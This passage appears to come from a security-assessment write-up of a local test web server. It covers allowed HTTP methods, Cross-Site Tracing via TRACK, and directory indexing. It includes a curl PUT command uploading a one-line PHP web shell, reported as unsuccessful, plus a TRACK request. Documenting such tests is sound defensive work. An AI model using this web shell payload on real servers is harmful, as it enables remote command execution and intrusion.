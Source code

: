     Observations:
    - All methods worked except CONNECT.
    - TRACK allowed Cross-Site Tracing (XST), exposing sensitive headers and cookies.
    - PUT: If allowed, attackers can upload arbitrary files to the server.
    - DELETE: If allowed, attackers can delete resources.
    - OPTIONS: If not restricted, it may leak supported HTTP methods.



2.  **Failed PUT Exploitation**

    Attempt to upload a malicious PHP shell:
    ```bash
    curl -X PUT -d "<?php system($_GET['cmd']); ?>" http://localhost:8090/shell.php
    ```
    This was unsuccessful due to server restrictions.

    Using:

    ```bash
    curl -X TRACK http://localhost:8090/ -v
    ```
    we could get Cross-Site Tracing (XST)

---





###### 2.4 Directory Indexing

###### Description

Directory indexing is enabled on the server, exposing directories like /cart/, /css/, /users/, and /images/.


<br>


###### Exploitation


1.  **Navigate to the following URLs in the browser or using ```curl```**  
    The following commands were used to test junk HTTP methods:


    ```bash
    http://localhost:8090/cart/
    http://localhost:8090/css/
    http://localhost:8090/users/
    http://localhost:8090/images/

    ```

